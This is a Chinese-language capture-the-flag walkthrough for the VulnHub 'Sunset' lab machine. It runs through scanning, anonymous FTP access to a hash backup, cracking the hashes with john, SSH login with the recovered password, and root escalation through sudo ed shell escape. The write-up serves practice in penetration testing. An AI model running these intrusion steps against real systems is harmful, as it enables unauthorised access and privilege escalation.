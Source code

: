 # Sunset

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Sunset（IP：192.168.56.103）

下载：https://www.vulnhub.com/entry/sunset-1,339/

## Let's go

```
nmap -A 192.168.56.103
```

![](./img/Sunset-01.png)

> **检测到允许匿名登录，我们进行尝试**

```
ftp
open 192.168.56.103
anonymous			  # 密码为空
ls
get backup			  # 下载backup
bye
```

![](./img/Sunset-02.png)

> **查看文件发现五个用户的哈希，我们使用john破解**

```
cat backup		# 将哈希写入hash
vim hash		# 靶机名sunset,所有我将sunset写在首行
john hash
```

![](./img/Sunset-03.png)

![](./img/Sunset-04.png)

> **得到用户 'sunset' ，密码 'cheer14'，我们进行SSH登录**

```
ssh sunset@192.168.56.103
```

![](./img/Sunset-05.png)

```
# 发现哈希，然而好像没什么用
sudo -l
```

![](./img/Sunset-06.png)

> **搜索发现ed命令是文本编辑器，我们可以通过!/bin/sh提权**

![](./img/Sunset-07.png)

```
sudo /usr/bin/ed
!/bin/sh
cd /root
cat flag.txt
```

![](./img/Sunset-08.png)